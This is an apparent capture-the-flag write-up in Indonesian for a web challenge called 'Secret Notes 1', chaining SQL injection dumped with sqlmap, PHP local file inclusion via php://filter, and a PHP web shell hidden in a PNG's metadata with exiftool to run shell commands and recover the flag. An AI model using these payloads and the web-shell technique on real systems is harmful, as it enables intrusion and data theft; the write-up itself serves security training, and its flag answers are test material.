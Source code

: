 # Secret Notes 1
Percayakan rahasiamu pada kami, kami akan menjaganya sepenuh hati seperti n---skip---<br/>

http://103.171.85.90:8082<br/>

Password VM : **4d1b54eeaceb5277ea022f7b42b53113**

##  Penjelasan
Cari vulnerability dalam web tersebut.

## How to Solve
1. Setelah beberapa lama mencari endpoint yang vulnerable, saya menemukan bahwa halaman edit secret ***/page.php?f=editsecret&id=your-id*** vuln terhadap sql injection.<br/>
2. Test sql injection dengan menambahkan ' (quote) pada judul. Didapatkan error sebagai berikut :
```
UPDATE `secret` SET `judul` = 'a'', `secret` = 'a' WHERE `id` = '1431944397'You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'a' WHERE `id` = '1431944397'' at line 1
```
3. Gunakan tools sqlmap untuk mempercepat proses dump database.<br/>
command :<br/>
``sqlmap -r exploit.txt --dump``<br/><br/>
dengan isi file exploit.txt sebagai berikut :<br/><br/>
```

POST /page.php?f=editsecret&id=<your-id> HTTP/1.1
Host: 103.171.85.90:8082
User-Agent: <user-agent>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Origin: http://103.171.85.90:8082
Connection: close
Referer: http://103.171.85.90:8082/page.php?f=editsecret&id=2145985763
Cookie: PHPSESSID=<php-session-id>
Upgrade-Insecure-Requests: 1

judul=test*&secret=test
```

didapatkan user dengan username **first-flag-is** dan password **KKST2021{do_you_k**

4. Saya lanjut mencari endpoint yang dapat di exploit lagi dan ditemukan bahwa parameter **editsecret** pada ***page.php?f=editsecret&id=your-id*** vuln terhadap **Local File Inclusion**
5. Check error dengan mengganti **editsecret** dengan value lain yang invalid.
**/page.php?f=randomstring**
didapatkan error sebagai berikut :<br/><br/>
```
**Warning**: include(randomstring.php): failed to open stream: No such file or directory in **/var/www/html/page.php** on line **15**  
  
**Warning**: include(): Failed opening 'randomstring.php' for inclusion (include_path='.:/usr/local/lib/php') in **/var/www/html/page.php** on line **15**
```
Dari error tersebut, saya mengira seperti inilah yang ada pada file page.php<br/>
```
<?php
	include($_GET["f"].".php");
	...
?>
```
6. Gunakan **php://filter/convert.base64-encode/resource=** untuk membaca file.<br/>
``http://103.171.85.90:8082/page.php?f=php://filter/convert.base64-encode/resource=page``
didapatkan isi dari **page.php** dalam base64 encoding.<br/>
```
PD9waHAgaW5jbHVkZSgnaGVhZGVyLnBocCcpOyA/PgoKCjw/cGhwCgogICAgaWYoaXNzZXQoJF9HRVRbJ2YnXSkpewoKCgogICAgICAgICRmaWxlcyA9ICRfR0VUWydmJ10uIi5waHAiOwoKICAgICAgICBpZihwcmVnX21hdGNoKCcvXC5wbmcvbScsICRfR0VUWydmJ10pKXsKICAgICAgICAgICAgaW5jbHVkZSAkX0dFVFsnZiddOwogICAgICAgIH1lbHNlewogICAgICAgICAgICBpbmNsdWRlICRmaWxlczsKICAgICAgICB9CgogICAgICAgIAoKICAgIH0KCj8+CgoKPD9waHAgaW5jbHVkZSgnZm9vdGVyLnBocCcpOyA/Pg==
```
Setelah di decoding, didapatkan isi dari file **page.php**<br/><br/>
```<?php include('header.php'); ?>
<?php

    if(isset($_GET['f'])){



        $files = $_GET['f'].".php";

        if(preg_match('/\.png/m', $_GET['f'])){
            include $_GET['f'];
        }else{
            include $files;
        }



    }

?>


<?php include('footer.php'); ?>
```
Setelah membaca file tersebut, ada sesuatu yang menarik yaitu, saya dapat memanggil file **png** dan di halaman **upload.php** terdapat form upload file untuk mengunggah gambar. Saya berpikiran untuk mengupload backdoor dengan file png yang disisipkan kode php, sehingga ketika nanti file png tersebut dipanggil, maka kode php tersebut berjalan.

7. Gunakan **exiftool** untuk menambahkan kode php ke dalam file png.
	command :<br/>
	 ``exiftool -Comment='<?=`$_GET[0]`?>' file.png``
8. Upload file tersebut pada halaman **upload.php**, otomatis file tersebut akan ter-rename dengan format **file/\<nama-user\>.png** dalam kasus saya adalah **file/user.png**
9. Panggil file png yang sudah diupload tadi.
``http://103.171.85.90:8082/page.php?f=file/user.png``  
10. Setelah memanggil file png tadi, sekarang saya dapat melakukan command shell. 
``http://103.171.85.90:8082/page.php?f=file/user.png&0=<your-command>``
11. Gunakan command **ls -lah** untuk melihat directory, sehingga ditemukan folder **.Administrator** yang berisikan file index.php
12. Gunakan command **cat** untuk membaca file tersebut.
``http://103.171.85.90:8082/page.php?f=file/user.png&0=cat .Administrator/index.php``
13. view-page source dan didapatkan flag bagian kedua :<br/>
```
<?php 
  $another_flag = "now_another_cooking?_twiceeee!!!}";
?>
```

## Flag
KKST2021{do_you_know_another_cooking?_twiceeee!!!}

